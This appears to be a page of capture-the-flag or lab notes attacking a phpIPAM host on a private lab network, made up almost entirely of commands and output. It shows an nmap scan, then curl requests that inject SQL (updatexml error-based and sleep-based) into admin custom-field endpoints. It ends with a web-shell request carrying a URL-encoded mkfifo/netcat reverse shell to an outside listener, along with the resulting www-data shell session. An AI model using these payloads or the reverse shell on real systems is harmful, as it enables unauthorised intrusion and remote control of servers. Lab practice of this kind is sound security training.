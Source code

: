 ```bash
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT       ADDRESS
1   161.55 ms 10.9.0.1 (10.9.0.1)
2   161.70 ms 10.10.96.248 (10.10.96.248)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 172.86 seconds
```



curl 'http://10.10.96.248/app/admin/custom-fields/edit.php' -H 'User-Agent: Mozilla/5.0 AppleWebKit/537.36 537.36' -H 'Cookie: phpipam=b852d916168309592ddade2e11847e48; table-page-size=50' -d 'action=add&table=users`where 1=(updatexml(1,concat(0x3a,(select user())),1))#`' --compressed --insecure

curl 'http://10.10.96.248/app/admin/custom-fields/edit-result.php' -H 'User-Agent: Mozilla/5.0 AppleWebKit/537.36 537.36' -H 'Cookie: phpipam=b852d916168309592ddade2e11847e48; table-page-size=50' -d 'action=add&table=users`;select * from users where 1=sleep(10);#`&csrf_cookie=ylbgj5gvd5OFeTeVPMQVgCaD8zxMro1R&name=asdfadsf' --compressed --insecure

curl 'http://10.10.96.248/app/admin/custom-fields/filter-result.php'-H 'User-Agent: Mozilla/5.0 AppleWebKit/537.36 537.36' -H 'Cookie: phpipam=b852d916168309592ddade2e11847e48; table-page-size=50' -d 'action=add&table=users`where 1=(updatexml(1,concat(0x3a,(select user())),1))#`' --compressed --insecure

curl 'http://10.10.96.248/app/admin/custom-fields/order.php' -H 'User-Agent: Mozilla/5.0 AppleWebKit/537.36 537.36' -H 'Cookie: phpipam=b852d916168309592ddade2e11847e48; table-page-size=50' -d 'action=add&table=users`;select * from users where 1=sleep(10);#`&current=1&next=3' --compressed --insecure

$ python3 -m pip install requests
$ python3 exploit.py -u http://localhost:8082 -U <admin> -P <password>

[Terminal 1]
╰─ curl http://10.10.96.248/shell.php\?cmd\=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.9.0.244%201337%20%3E%2Ftmp%2Ff

------------------------------------------------------------------------------------------

[Terminal 2]
╰─ nc -nlvp 1337                                                                                ─╯
listening on [any] 1337 ...
connect to [10.9.0.244] from (UNKNOWN) [10.10.229.233] 43490
sh: 0: can't access tty; job control turned off
$ id; whoami; pwd; hostname
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data
/var/www/html
hackerdog
